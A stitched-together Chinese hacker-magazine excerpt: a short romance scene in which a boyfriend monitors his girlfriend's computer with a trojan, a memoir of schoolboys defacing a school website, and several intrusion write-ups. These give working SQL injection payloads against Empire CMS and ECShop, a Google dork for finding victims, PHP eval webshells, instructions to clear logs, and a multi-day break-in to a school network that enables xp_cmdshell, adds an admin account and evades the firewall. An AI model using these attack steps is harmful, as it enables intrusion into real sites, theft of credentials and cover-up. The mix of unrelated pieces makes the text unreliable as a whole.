洛衡看着手中的贝壳和眼前的大海，眼睛微酸。她无法抗拒内心对筱阳的爱，哪怕她如此自卑和不安。她总是对自己说，没什么，不要怕，大不了再看他一眼，再想他一次，然后就放手忘记他吧。可是看了一眼，忍不住又会再看一眼，想了一次更是会一直想下去。

“你总是这样阴暗，容易胡思乱想。”身后忽然响起熟悉的声音，一双修长而强壮的手臂把洛衡抱起，拥进怀里。洛衡却是挣扎着抬起头，不可思议地望着眼前的人，“你，你怎么会找到这里……”

筱阳的面容有丝疲惫，却是温和，“我看了你的‘消失的光年’，知道你来了这里，就逃课赶过来了。”

“我的博客？！你怎么会知道的，你应该不可能知道的啊……”洛衡顾不得哭泣，惊声尖叫道。

“你这头笨笨的猪，你忘记了我是黑客，你忘记了圣诞节的那个木马了？”筱阳无奈地笑道，捏了一下洛衡的脸。

“你又偷偷监控我的电脑！”洛衡顿时觉得无地自容，恨不得找个地缝钻下去。那些阴暗的情绪就这样毫无遮拦地暴露在了筱阳面前。

“我不是早就跟你说过我能监控你电脑了吗，是你自己记性不好。现在人已经找到了，跟我回去吧。”

“等等，你监控我电脑都看了些什么？”洛衡忘了自己的悲伤，不依不饶地追问着她的博客。

“该看到的都看到了呗，不该看到的嘛……比如说某头笨猪的无聊自卑情绪啊，比如说某头笨猪对某帅哥的不必要的担忧了，想想，还蛮有意思的。”

“你……”洛衡为之气结，“什么叫无聊啊，什么叫不必要啊，你那天和冷泠在走廊里……”

“哦，原来是这件事啊，钟那家伙喜欢上冷泠了嘛，委托我这死党去帮他约冷泠啊，难不成你以为是我对她有意思啊。”

“可是，可是她牵了你的手啊，你都不拒绝。”

“有吗？我都没什么感觉……哦，我要走的时候，她说很感谢我来拍这DV剧，就握了下手而已啊。这有什么，牵过我的手的女孩子多了去了……”

“什么？！”

“本来就是啊，我妈牵过我的手，我姐也牵过，我表妹啊七大姑八大姨啊，应该都有牵过我手，你这样就吃醋，我怕你会吃醋吃不过来的。”

洛衡闻言一阵语塞，眼前是筱阳那张笑得坏坏的容颜。

“笨笨的肥嘟嘟左右门，你要记住了，如果不是我亲口说的事情，你都不要太相信，不要胡思乱想，更不要轻易想放弃。现在像我这样的帅哥很难找了，你要好好珍惜啊。”

“你这个无赖。”洛衡哭笑不得。

筱阳忽然收敛了笑容，轻轻捧着洛衡的脸，“虽然你不是最漂亮的，也不是最优秀的，但对于我而言，你是最适合的，再不会有女孩子如你一般纵容我，我也不想这样失去你。”

对于贝壳而言，珍珠是最重要的，即使孕育它的过程很痛苦，但它仍是贝壳最重要的精魂之所在；而对于珍珠而言，贝壳其实也是它最在乎的。比起被雕琢成漂亮的首饰戴在人的身上，它更是眷恋贝壳温柔的怀抱。珍珠于贝，贝于珍珠，其实都是彼此最值得珍惜的存在。

“笨猪，所以不要难过了，笑笑，咱们现在赶回去，还能赶得及看我们的DV展出。要不是为了你，我才懒得参与这种无聊的事情。但是既然拍完了，你也不能错过本帅哥的荧屏初秀。”

“嗯，好。一起回去吧。”

“一起回去吧。”

## 年少的往事……

我十四岁时，上初中，父母在一个单位工作，那年他们的单位从城东迁到了城西，于是我家也就搬了过去。由于我上下学非常不方便，他们又给我办了转学手续，就这样我来到了一所离家不远的中学。这个学校还算有点名气吧，硬件方面很不错，操场也很大，每天放学后都会有一群人在那里踢足球。我没有运动的爱好，一放学就回家，回家的途中要穿过一个小公园，在公园的一头是一个小花坛，几把长椅，剩下的几乎全让小树林给覆盖了。因为许久不见人管，树林里也就杂草丛生，这里本没有路，但走的人多了自然也就成了路。

班主任姓田，是个面孔很黑且有些显老的中年男人。学生们正面叫他田老师，背地里都叫他老田。别以为“老田”这个称呼叫得很亲切，事实上被他揍过的男同学一提起这两个字无不咬牙切齿，对他的形容就像金庸小说里的岳不群：虚伪、阴险、笑里藏刀。作为插班生，我本就不受欢迎，第一天上课就见他好像是阴着个脸。于是我对自己说：一定不要去招惹他。我规规矩矩地上课，做作业，一个人上学回家。期末考试，我考了班级第十名。

前三名都是尖子生，前十名就是好学生，因为这个，我和陆旭相识了。我瞪大了眼睛，差不多半年了我竟然不知道这楼里还有个同学。那天晚上我们两人聊了很久，他妈妈不停地说：“你们家的孩子学习优秀，多帮助我们家的。”临走的时候，陆旭冲我一眨眼，说道：“明天我来找你！”

没想到这以后，我和陆旭竟成了铁哥们。和我恰恰相反，陆旭爱玩，调皮捣蛋，是个十足的坏学生。在认识我之前，他的作业经常完不成，但现在他会毫不客气地拿我的去抄。老田把他叫到办公室，让他重做，他做不出来，于是关上门就把他一阵痛扁，但出来后他依然是抄。我给他讲他也不听，他说：“让我学习简直就是浪费时间，长大了丁点儿也用不上，顶个屁用。”他爸爸是个体经商户，小学都没有毕业。

陆旭爱玩网游，学校的墙外就是一个网吧，他星期天基本上都是泡在里面不出来。有一次放学后他忍不住拉我一起进了网吧，那时我还是个小菜，连QQ都不会上，看着屏幕上的人砍来砍去的样子很傻，于是对陆旭说了声没意思，就一扭头去了对面的书店。过了一小时他跑来找我，回去后他就对家里撒谎说是去踢足球了。他家里管教很严，他妈妈还跑下楼，特地问我是不是真的。我只好替陆旭隐瞒，由于我在他们眼中是个好学生，因此他们也就根本没有怀疑过我。那之后，几乎每天都是这个样子：放学后去网吧玩传奇，我就去书店看小说，一小时后我俩一路小跑穿过公园和小树林，到家里气喘吁吁地说“我们去踢足球了”！

陆旭跟老田过不去，经常在大街上走着走着想起来就骂他，这也难怪，班里就数陆旭挨老田揍的时候多，于是他经常到处散播老田的谣言，说老田仗着在这学校教了几十年的书，自以为资格老，根本就不把其他老师放在眼里，还说他几年前的一天夜里跑到郊外偷玉米结果让人给逮了，吓得他下跪求饶等等。我也不知道这是真是假，只觉得老田一张死皮脸又偏偏生得很黑，越发觉得他厚颜无耻起来。

也许是因为青春的躁动，我竟喜欢上了武侠小说。金庸古龙让我痴迷于侠骨柔情，于是放学后，先是我一头钻进书店，而陆旭就一头钻进网吧。只是我看武侠小说，他却不玩传奇了。我问他为什么，结果他说了一句很耐人寻味的话：“玩物丧志。”他问我书店里有没有关于黑客的书，我问他黑客是什么，他说：“就是能入侵别人电脑的计算机高手。”

突然又觉得不太对，想了想又说道：“是身怀绝技，坚持网络和平与正义的人。”我摇了摇头，事实上我根本就没有明白他说的是什么意思，只记下了“黑客”两个字。后来的一天，我在火车站旁边的书城里看到了一本叫做“黑客攻防实战入门”的书，于是就跑到电话亭问他要不要，他兴奋地说一定要买下来。这书只有巴掌大小，我翻了几页，感觉字母太多，看不懂，倒有几节好像是说怎么盗QQ的，我怀疑新华书店怎么会卖这样的图书！？

为了找借口，陆旭会拉我一起包夜上网，我俩共用一台机子，耳机归我听歌，他则上网找东西看，然后对着一个黑乎乎的窗口拼字母。电脑重启了好几次，我担心他会不会把电脑搞坏了，没挨到半夜，我就趴着睡着了，醒来后见他有些疲惫，但仍是收获不小的样子。

然而这一年却是我初中最伤心后悔的一年，因为迷恋武侠小说，我的成绩垂直下降，在一次非常重要的测验中，我狂退了三十名，可恰巧的是，我们班也没有被评上优秀班集体。老田一天都没有露面，下午快放学的时候他才沉着脸走进了教室，点了五个人的名字到办公室，其中有陆旭，还有我，其他的都是后四名的同学，我则是因为倒退了三十名。

我们五个人进了办公室，刚整整齐齐地站好，就看见那个叫猴子的同学向后飞了出去，“砰”的一声重重地撞在了门上，接着第二个“啪”的一声也趴在了地上。老田就这样一个个轮流地踢，轮完一圈就拿起酒瓶喝一口，再接着踢。我们四个都趴在地上不敢起来，唯独陆旭站着，硬挺着。我从来没有见他这样挨过，被踢倒了站起来，起来后又被踢倒，还是挣扎着站起来。他就这样坚持着，斗争着，轮了一圈又一圈，酒终于喝完了，老田也踢累了，看也不看我们一眼，一挥手叫道：“滚！”我们才连滚带爬地跑出了门去。

刚出门没几步，陆旭就突然倒在了地上，再也爬不起来。我连忙去扶他，他一拐一拐的。我摸了摸他的小腿，肿得老高。他也不吭声，沉默得可怕，我也不说话，只是一步步地扶他回家。在穿过小树林时，他突然大喊：“老田，我一定要杀了你！”他一连喊了好几声，气得浑身都发抖了。我害怕地抱住他，说道：“旭，等我们长大了，一起来找他报仇好不好？”说着就想到了自己从小到大都没有受过这样的委屈，眼泪不禁啪啪地掉了下来。陆旭看着我，他也想哭，可他强忍住眼泪，冲我重重地点了点头。

又一个夏天过去了，天气开始变冷，陆旭也逐渐地变冷起来，他不再爱跟同学们打闹了，沉默的时候居多，也不知道他在想些什么。有时候他会说要我好好学习，考个好高中，那口气就好像是他拖累了我，不过他依然是我最好的朋友。

他说要把学校网站黑掉的时候，我吓了一跳，以为他就是传说中的黑客。他说一定要在网站上把老田无耻的行径登出来，公布于众。我立刻说，我支持你，可在他说出入侵的方法后，我差点晕倒。他是趁放学微机室没人的时候就钻进去，在主机上加个账户，然后从外面登录。我马上说，这太危险了。他说，为了正义，他拼了。

于是我就在网吧开了个机子等他，十几分钟后，他气喘吁吁地跑来，颤抖着声音说：“成功了。”我怀疑他为什么这样紧张，后来才知道，他出来时路过办公室，窗户正开着，他看到里面有台电脑开着，那应该是老师们共用的，可他却看见老田经常使用那台电脑上网，于是就毫不犹豫地拿起块砖头扔了进去。

他颤抖得连字都打不出来了，就让我替他，可我也很紧张，对着那个黑乎乎的窗口，他说一个字我打一个，网吧老板用奇怪的眼神看着我们，可我们也管不了那么多了！

成功登录之后，我们在主页上大骂老田小人且阴险恶毒……然后就匆匆地退了出来，交了钱，逃也似地跑出了网吧。

一口气跑到小树林，心还在噗噗地跳得难受，天有些黑了，可我们还不敢回家，一起坐在草丛里，生怕被人发现。只记得陆旭突然抱住了我，这次是他先哭了：“奇，我们会不会坐牢啊？”我哆嗦着说道：“不会，如果会，我也陪你。”

那个骂人的主页，鬼使神差地被挂了整整一个星期。

一年又一年，我在外地上了高中，陆旭则去了一所电脑学校，后来放假回家，听说老田不教书了。我跑到学校去打听，果然如此，原因是他虐待学生，被辞了。我打电话告诉陆旭时，电话那头他沉默了好久，但我知道他想起了什么……

#### 上接234页


图3

现在点击“技术支持服务信息”窗口中的“执行AVZ脚本”按钮，在弹出的窗口中分别输入对应的脚本代码，然后点击“执行”命令就会执行脚本代码了，如图4。由于脚本中有“重启”功能，因此操作系统会自动重启，这样木马服务端就成功地被删除了。

#### 三、编写清除代码

接下来查看系统的安全报告，发现了木马程序的启动服务，另外我还发现Hosts文件也被更改了，当然这个文件的修改和PcShare木马没有关系。于是我又添加了“ExecuteSysClean;”、“BC_Activate;”和“RebootWindows(true);”三行代码，分别表示删除所有引用病毒文件的启动项以及激活BootCleaner并重新启动操作系统。


图4

> （文章中所用到的卡巴斯基2009已收录到光盘中）

### 帝国CMS系统最新注入漏洞兼入侵

hackest[H.S.T]


#### 一、前提

在介绍这个漏洞前，我们有必要明白一个概念——宽字节注入。宽字节注入是相对于单字节注入而言的，单字节注入常见于在带参数ID的URL后拼接SQL语句（如 `...id=1 and 1=1/*`、`...id=1 and 1=2/*`）进行判断。

文中继续说明：在PHP开启 `magic_quotes_gpc` 或使用 `addslashes`、`iconv` 等函数时，单引号会被转义；在GBK等宽字节场景下，可能通过 `%bf%5c%27` 等组合绕过，导致注入成立。


图1

随后文字说明这些转换在PHP+MySQL场景中的利用意义：若数据库连接或默认字符集为GBK，程序中大量依赖转义函数时可能出现注入风险，甚至在特定条件下导致进一步危害。

右栏说明该注入可进一步影响登录等逻辑，示例以 `login.php` 代码为例。

```php
<?php
$conn=mysql_connect('localhost','root','hackest');
mysql_query("SET NAMES 'GBK'");
mysql_select_db('test',$conn);
$user=mysql_escape_string($_GET['user']);
$pass=mysql_escape_string($_GET['pass']);
$sql="select * from cms_user where username='$user' and password='$pass'";
$result=mysql_query($sql,$conn);
while($row=mysql_fetch_array($result,MYSQL_ASSOC)){
  $rows[]=$row;
}
?>
```

示例构造URL参数（含 `%df'%20or%201=1%20limit%201,1%23` 等）并给出对应SQL：`select * from cms_user where username='' or 1=1 limit 1,1#' and password=''`。

#### 二、实践

开始进入帝国CMS实例分析，介绍其会员/权限相关代码位置与注入点背景。

```php
// 权限与会员级别判断（节选）
if($gbid['groupid']){
  include('../../class/user.php');
  $user=islogin();
  include('../../class/MemberLevel.php');
  if($level_r[$userid['groupid']]['level']>$level_r[$user[groupid]]['level']){
    echo "<script>alert('...');history.go(-1)</script>";
    exit();
  }
}

esetcookie('enews',0,0);
$oname=$gor[$bname];
$search="&bid=$bid";
$page=(int)$_GET['page'];
$start=(int)$_GET['start'];
$line=12;
$pageline=12;
$offset=$start*$pageline;
$totalnum=(int)$_GET['totalnum'];
```

## 一个人的战争

```php
if($totalnum)
{
    $num=$totalnum;
}
else
{
    $totalquery="select count(*) as total from {$dbtbpre}enewsbook where bid='$bid' and checked=0";
    $num=$empire->gettotal($totalquery);//取得总条数
}
$search="&totalnum=$num";
$query="select lyid,name,email,call,lytime,lytext,ip from {$dbtbpre}enewsbook where bid='$bid' and checked=0";
$query=$query." order by lyid desc limit $offset,$line";
$sql=$empire->query($query);
$pr=$sql->page->page1($num,$line,$page_line,$start,$page,$search);
```


注意代码中的注释部分，我们就以官方网站来进行测试吧，官方的演示站点为 `http://demo.phome.net/`，直奔留言本页面 `http://demo.phome.net/e/tool/gbook/?bid=1`，注意要带上 bid=1，然后下拉至“请您留言：”处，按如下要求填写相关信息：

- 姓名：123
- 联系邮箱：1^1,1,(select concat(username,0x5f,password,0x5f,rnd) from phome_enewsuser where userid=1),1,1,0,0,0/*
- 联系电话：随便写
- 留言内容：随便写

填好后如图2所示，点击“提交”后就能看到爆出来的用户名、密码MD5、还有rnd值了，如图3。wm_chief就是开发帝国CMS的程序员，因为提交了好几遍，在后台又删不掉，所以有多条记录。


破解出密码明文就可以登录后台了，不过官方演示站点的后台并没有数据库操作权限，凡是涉及到数据库的操作就会提示“在线演示仅开放观看权限，与数据库相关操作已被管理员禁止！……”。而且这个MD5值在线查询也没有出来，最终密码明文是使用MD5的彩虹表破解出来的。这个后台就是只能让你看看，顺便体验一下其强大的功能（官方也提供了演示管理员的用户名和密码均为admin，也可以登录，不过都是操作不了的），拿这个密码去社工一下管理员，也没有什么意外的收获，其博客、论坛、邮箱、官方站点FTP、官方站点3389等均无法进入，所以官方是搞不到Webshell了。

#### 三、替补

官方网站进不去那我们就来找个替罪羊吧，打开Google以关键字 `inurl:e/tool/gbook/?bid=1` 进行搜索，搜索出来的站点99%使用的都是帝国的CMS系统。我随便找了一个，经测试证明漏洞存在，如图4。


可恨的是这个MD5值也是无法在线查询出来的，又得开彩虹表跑了，把刚才官方网站上的那个MD5值也一起跑了吧，出去吃完饭回来，结果已经出来了，如图5。

> **小知识：什么是彩虹表？**  
> 彩虹表就是一个庞大的、针对各种可能的字符组合预先计算好的哈希值集合，不一定是针对MD5算法的，各种算法的都有。有了它就可以快速地破解出各类密码。越是复杂的密码，需要的彩虹表就越大，现在主流的彩虹表都是100G以上。

## 一个人的战争

刚登录进入后台了，后台默认地址为“e/admin/”。使用用户名 joycar 和破解出的密码 zuxywzl19，顺利地进入了后台，如图6。

好多人都不知道什么叫清理日志，其实就是尽可能地把关于你的操作的相关记录都删除。比如你登录了 3389，系统日志会记录；比如你登录了 FTP，应用程序日志也会记录；比如你对这个网站进行了注入攻击，IIS 或者其它 Web 应用程序也会记录。技术过硬的管理员就会从这些日志里分析出你的攻击方法、攻击来源等细节，安全工作一定要做足，千万马虎不得。


进入后台该怎样才能拿到 Webshell 呢？添加上传文件的后缀？我试了下，发现不行。在网上搜索了一下相关资料，原来在模板管理那儿有猫腻。进入后台->模板管理->自定义页面->增加自定义页面，页面名称可以随便填写，文件名也得取一个，文件名处可以填指定路径，分类不必理会，页面内容处就写如下的代码：`<\?php eval($_POST[cmd]);?\>`，如图7。一般的 PHP 一句话木马的代码是 `<?php eval($_POST[cmd]);?>`，其中 cmd 是密码，但是这里一定要按照上面的要求在前后都要加上“\”，不然的话是不会成功的，务必记住！然后点击提交，再返回到管理自定义页面，点击刚才起的页面名称，如图8，直接跳转到了 e/admin/template/hackest.php，提示无法找到该页，路径不对，当然找不到了。把访问地址改成 e/admin/hackest.php 再提交，显示一片空白，我心中窃喜，得手了……

最后，再使用 lanker 微型 PHP+ASP 管理器 1.0 双用版连接一句话木马，提交下环境变量看看，如图9。再上传一个 PHP 大马就大功告成了，服务器是 Linux 系统，版本是 Red Hat Enterprise Linux AS release 4，有溢出保护，提不了权，如图10。


入侵完成后，千万要记得把刚才爆用户名和密码的那条留言删除掉，再把你添加的自定义页面也删除，后台日志也要处理。

#### 四、修补

官方网站虽然也被我爆了一段时间了，但是似乎并没有引起足够的重视，截止本文完成时仍然没有看到官方有任何关于修补此漏洞的解决方案（其实也不能完全算是帝国 CMS 的错，编码这个问题最近闹得比较凶——）。

解决方法如下：就是在初始化连接和字符集之后，使用 `SET character_set_client=binary` 来设定客户端的字符集是二进制的。修改 Windows 下的 MySQL 配置文件一般是 `my.ini`，Linux 下 MySQL 的配置文件一般是 `my.cnf`，比如 `mysql_query("SET character_set_client=binary")`。`character_set_client` 指定的是 SQL 语句的编码，如果设置为 binary，MySQL 就会以二进制来执行，这样宽字节编码的问题就没有用武之地了。

（本文所涉及到的字符转换工具、lanker 微型 PHP+ASP 管理器 1.0 双用版已收录到光盘中）

## 菜鸟玩转 ECShop 网店系统第 0DAY

清原长风


前段时间在网上“散步”，忽然看到 ECShop 漏洞，而且影响主流的 ECSHOP 2.6.1/2.6.2 版本，开始时还以为是前不久公布的那个漏洞，可仔细看了下漏洞公布的时间，发现是 5 月 25 号，这不正是传说中的 0DAY 吗！

想起为了前不久的那个漏洞我还特意下载了一份 ECShop v2.6.2 网店系统，这次正好研究一下。ECSHOP 是一款开源免费的十分强大的网上商店系统，使用非常广泛，甚至于很多大网站都在使用。由于我对这套系统不太了解，所以只好按照网上的提示来看了。

#### 一、漏洞形成

首先是根目录下 includes/init.php 文件，代码如下：

```php
if (!get_magic_quotes_gpc()) {
    if (!empty($_GET)) {
        $_GET = addslashes_deep($_GET);
    }
    if (!empty($_POST)) {
        $_POST = addslashes_deep($_POST);
    }
    $_COOKIE  = addslashes_deep($_COOKIE);
    $_REQUEST = addslashes_deep($_REQUEST);
}
```

这个文件是前台公用文件，使用非常频繁，这里是判断 `get_magic_quotes_gpc()` 的状态，如果为 off 则调用 `addslashes_deep()` 对用户传入的变量进行转义操作。那么 `addslashes_deep()` 定义在哪里呢，且看同样位于 includes 目录下的基础函数库文件 `lib_base.php`：

```php
function addslashes_deep($value) {
    if (empty($value)) {
        return $value;
    } else {
        return is_array($value) ? array_map('addslashes_deep', $value) : addslashes($value); // 处理数组
    }
}
```

`addslashes()` 为转义函数，上面的函数处理过程只是满足漏洞形成的先决条件（注：网上的文章将 empty 写成了 emp-tyempty）。下面我们来看真正的漏洞文件——根目录下的 `pick_out.php`：

```php
if (!empty($_GET['attr'])) {
    foreach($_GET['attr'] as $key => $value) {
        $key = intval($key);
        $_GET['attr'][$key] = htmlspecialchars($value); // key 值的使用非常随意
    }
}
if (empty($cat_id)) {
    /* 获取所有符合条件的商品类型 */
    $sql = "SELECT DISTINCT t.cat_id, t.cat_name ...";
    $rs = $db->query($sql);
    ...
}
```

当 `magic_quotes_gpc=off` 时使用 `addslashes()` 对 `$key` 没有进行完善的处理，同时在数组赋值时存在逻辑问题，最终导致了注入漏洞。

#### 二、漏洞利用

上面对这个漏洞进行了一个简单的说明，如果对 PHP 不熟悉的话大家可以通过 Google 搜索其中的一些函数就能明白了。小菜们最关心的自然是漏洞的利用，好在网上也公布出了一个 PHP 版的漏洞利用工具，我就使用 Windows 2003 虚拟机来演示一下这个漏洞。先来看看 ECShop v2.6.2 长什么样子，如图1。


将利用代码写到一个 PHP 文件中（fuck.php），具体使用格式为：`php.exe fuck.php 192.168.83.136 /MyPhpSite/ecshop/`，如图2，返回了后台管理员用户名和 32 位的 MD5 密码。我们把 MD5 密码拿到 www.cmd5.com 上进行在线查询，就可以得到明文密码了。后台的默认路径为“/admin/”，我们使用得到的账号和密码进行登录，如图3。


### 三、获取 Webshell

这套商店程序的后台十分强大，功能也非常完备，当然在防黑客攻击方面也做得很好。文件上传过滤得很严格，虽然有数据库备份，但是备份得到的文件后缀都是 .sql 的，那么怎么得到 webshell 呢？我们来看看 /admin/integrate.php 中的代码：

```php
if ($_REQUEST['act'] == 'sync') {
    $size = 100;
    // 省略若干代码
    $del_list = $db->getCol($sql);
    $rename_list = $db->getAll($sql);
    $ignore_list = $db->getCol($sql);
    $fp = @fopen(ROOT_PATH . DATA_DIR . '/integrate_' . $_SESSION['code'] . '_log.php', 'wb');
    $log = '';
    if (isset($del_list)) {
        $log .= '$del_list=' . var_export($del_list, true);
    }
    if (isset($rename_list)) {
        $log .= '$rename_list=' . var_export($rename_list, true);
    }
    if (isset($ignore_list)) {
        $log .= '$ignore_list=' . var_export($ignore_list, true);
    }
    fwrite($fp, $log);
    fclose($fp);
    // 省略若干代码
}
```


没有任何过滤，直接写后缀为 php 的 log 文件，我们可以将 php 一句话木马写入到 `\data\integrate__log.php` 文件中。得到 webshell 的语句为：`http://192.168.83.136/MyPhpSite/ecshop/admin/integrate.php?act=sync&del_list=<?php%20eval($_POST[cmd])?>`，提交后打开虚拟机中的 `\data\integrate__log.php` 文件，发现一句话木马已经写入了，如图4。使用 php 一句话客户端连接 `http://192.168.83.136/MyPhpSite/ecshop/data/integrate__log.php`，如图5。

ECShop 的使用非常广泛，这次爆出的漏洞也是很致命的，希望大家抱着学习技术的目的来认识这个漏洞。我们以关键字“Powered by ECShop”在 Google 上进行搜索，就会找到很多网站。在后台转悠的时候我发现后台还有一个执行 SQL 命令的功能，但是只能进行简单的查询，这一点也比较有利用价值。（ECShop 漏洞利用工具已经收录在了光盘中）


### 终悟所愿——曲折的入侵

这次的入侵说起来可就话长了，故事发生在最初来到这个学校的时候，发现学校网站的一个页面存在注入点，后来测试的结果发现是 PHP+Linux 的组合，成功地爆出来 admin 和 pwd，可是后台却怎么也找不到……

后来在去年 6 月 12 日那天，我在同网段中的一个系统登录的地方发现了类似 dvbbs 的 POST 注入点，可是当时脑袋一热，也没有细想其它的办法……以后很长一段时间我再也没有去关注它，入侵的热情也降低了很多。

前段时间和朋友吃完饭后随意聊天，他告诉我说，我们学校有人入侵了学校服务器，而且在论坛里发出了截图……我开始了大面积的扫描。

#### 第一天

因为我不相信自己会比他差，于是随手就抄出了 HScan Gui v1.20 Scan 对他告诉我的那个 IP 段 172.16.250.76 进行了大面积的扫描，但扫描结果很让我尴尬，居然有 ROOT/[NULL]……

他所说的网管禁止了服务器的访问，是因为没有使用 HTTP/80 协议，而改用了更安全的 HTTPS/443，直接打开这个 IP 地址默认调用的是 HTTP 协议，当然也就无法访问了。先进去瞅瞅吧，拉出 MySQL-Front 立马连接 172.16.250.76，结果成功登录，如图2，接着很轻松地找到了 admin 表并且还找到了密码……


看来我的猜测没有错，只是修改了下端口，使用了更安全的 HTTPS，并没有变态到禁止访问。输入账号和密码，成功登录，如图4。总算进来了，进来后我就想着怎样才能拿下这台服务器，于是就在那里边开始找上传的地方……


#### 第二天

到现在我对于 Web 路径还是一点儿头绪都没有，随后就开始了疯狂的寻找之路。MyServer 中文的介绍几乎看不到，我找到了官方网站，下载了安装包……这里只说下介绍的猜路径的方法吧。

```sql
Create TABLE temp(cmd text NOT NULL);   -- 建立 temp 表，里面就一个 cmd 字段
Insert INTO temp (cmd) VALUES('test');  -- 把 test 插入到 temp 表
Select cmd from temp into outfile '/root/db/mysql/test.txt'; -- 查询并导出到 test.txt
```

我已经建好了一个名为 temp 的表，内容为“happy by yofx”，如图7，点击 SQL 编辑器输入命令……如果导出成功，就证明存在这个目录，反之则不存在……

#### 第六天

虽然进入这个系统的目的已经达成了，可是对主站还是遥遥无期，因为它们并不在一个网段中……继续使用 HScan 再配合 scanner，整理了下扫描出来的信息，汇总如下：

- 172.16.131.34 (www.xasyu.cn)
- 172.16.131.35 (mail.xasyu.cn)
- 172.16.131.36 (download.xasyu.cn)
- 172.16.131.37 (home.xasyu.cn)
- 172.16.131.39 (vod.xasyu.cn)
- 172.16.131.40 (dns.xasyu.cn)
- 172.16.131.46 (zb.xasyu.cn)
- 172.16.131.47 (xyh.xasyu.cn)
- 172.16.131.48 (www.sxchuangxin.com)
- 172.16.131.50 (pjb.xasyu.cn)
- 172.16.131.53 (web.xasyu.cn)
- 172.16.131.55 HTTP banner: Microsoft-IIS/6.0

分析了下 46、47、61 这三个 IP，发现可以浏览诸如 cgi-bin 的目录，不过也没什么大的发现……直到看到 55 这个 IP 的时候发现春天来了……接着整理了下思路，使用已有的密码组合尝试 SSH 登录其它服务器，但均未成功，此时感觉天空是如此的黑暗，竟然还说网管垃圾。

随手打开了 172.16.131.55 这个 IP，我看到一个熟悉的界面跳入了眼眶，这太让人激动了，因为这个页面就是我前面提到的那个存在 POST 注入的系统……不能上传 ASPX、PHP 之类的，这个应该是意料之中的。

`1='2'` 时被骗，提交“and 1=1”正确，于是就把它扔到了啊D里进行检测，看着啊D跑出来的结果我好兴奋呀，如图11。


居然是 SA 权限，接下来很顺利地找到了 ADMIN 的密码，如图12，立马去 cmd5 上跑密码……在信息发布处找到了上传的界面，如图13。


于是我怀着忐忑不安的心情直接上传了一个小马，结果很顺利地提示上传成功了……3 天我就进行到了这个地步。


于是我又拿出 winsockexpert 看能否抓包突破，当看到抓包的信息时，我心里一阵激动：`http://172.16.131.55/pcsims/Common_Application/Get_Imag.ashx?Sb_id='111111'`……结果也证明我的判断是正确的。

#### 第七天

本想小马都已经传上去了，那么后面的事应该很 EASY 了？可是天不遂人愿……当我成功写入 ASPX 文件后却高兴地去访问了，结果更大的打击在等着我，人家提示说：未预编译文件“/pcsims/First_Page_Settings/Info_Publish/Table_Upload_File1/dama.aspx”，因此不能请求该文件……结果更郁闷。

## 一个人的战争

郁闷的事情又发生了，如图15，看到这个我是真的没办法了，尝试编辑、下载、删除都是提示此类信息，真的无敌了。抽根烟冷静了一会儿，ASPX看来是没戏了，那么我还是继续 ASP 吧，尝试写入 ASP 一句话，访问后一切正常，于是我立马拉出了连接端，开始了我的突破之旅。


#### 第八天

这天一开始我就疯狂地用小马来列目录和查看盘符，结果就两个盘，万般无奈下尝试看 D 盘能列目录不，这下总算发现了好东西，D 盘有网站的完全备份、安装程序和说明文档。立马使用小马下载说明文档，当弹出了下载框的时候我真的特别兴奋，迫不及待地打开说明文档，当翻到最后的时候总算看到了希望，如图16，特别是那句“根目录下用记事本打开 Web.config 文件，修改一下属性。将‘localhost’改为服务器的 IP 地址，将数据库默认用户‘sa’的密码改为数据库服务器中‘sa’的登录密码”更让我兴奋不已，立马拿出我的小马编辑 Web.config 文件，显示为乱码，不过查看源代码就能找到天机“server=localhost;User id=sa;Pwd=asd”了，总算找到 SA 密码了，立刻祭出 sqljnc.asp 然后访问，输入帐号和密码，连接成功，哈哈，太兴奋了。


当我习惯性地执行“netstat -an”时又遇到了冷水，SQL Server 阻止了对组件“xp_cmdshell”的访问，其它组件也是。在百度上搜索了一下，找到一个很好的解决办法，就是依次往注入点输入：

```
USE master
```

```
EXEC sp_configure 'show advanced options',1;
RECONFIGURE WITH OVERRIDE;
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE WITH OVERRIDE;
EXEC sp_configure 'show advanced options',0;
```

就可以搞定了，这是 SQL2005 的新特性，默认阻止了的。现在可以执行任何命令了，我随后查看了一下服务，发现 TELNET 和 3389 都开放着，IPSEC 也开着。杀毒软件是麦咖啡。基本信息就是这样了，我新建了一个帐号添加到管理员组中，然后连接 3389，现在可是很高兴了，结果老半天后提示我无法连接到远程计算机，尴尬地再次检查了“netstat -an”，3389 开放着呢，23 端口也开放着，可就是连接不上，难道是麦咖啡阻止了？或者 IPSEC 搞的鬼？立马用 SC 干掉了 IPSEC，然后 shutdown 下，结果还是连不上。

立马呼朋唤友，召唤到了黑暗风暴，让这家伙给我弄个过麦咖啡的马儿。结果风暴给我拉过来 faust，大概 10 多天后我才收到免杀的马儿。可那时候服务器早已经到手了，真是尴尬。现在我又开始惆怅了，空有 SA 可是却没用，LCX 扔上去就是死，懒得去免杀它，我在内网也不好反弹，那么这台主机会不会是禁止其它电脑访问 3389，而只允许特定的电脑访问呢？我觉得有这个可能，找出 ASock5.exe 成功执行后，发现我设定的代理端口开了，掏出 SOCKCAP32 填入这台服务器的代理端口和地址、帐号、密码进行连接 3389，还是无法连接！

我可真是郁闷无极限了。又不行，那么再换，我还就不信搞不定你。既然这样都不行，那么你 80 端口总算可以用吧？在百度搜索了一番找到了 wxshell，默认复用端口不是 80，修改过程就扔给了小奇，小奇给我编译好发过来了，结果当场给麦咖啡干掉了。随后在小奇的努力下，去掉了一些不实用的功能终于不被查杀了。继续执行，结果丝毫没有反应，服务不创建，进程不显示，端口不打开，可是我在本机测试却没问题啊，又给卡住了。

随后我在百度上漫无目的地搜索 80 端口突破，想到了修改 3389 端口的方法，可是感觉很麻烦，结果在网上又找到了 AntiFW.exe 这个小工具，可以停止 IIS，然后修改 3389 端口为 80，看来自前人也遇到过。既然现成的都有了，那我们立马扔上去吧，执行“AntiFW -s”后网页打不开，这时应该成功了，连接 172.16.131.55:80，这次久违的 3389 总算看到了，如图17。这次 C 段的拿到了，我想主站应该也快了吧。

#### 第九天

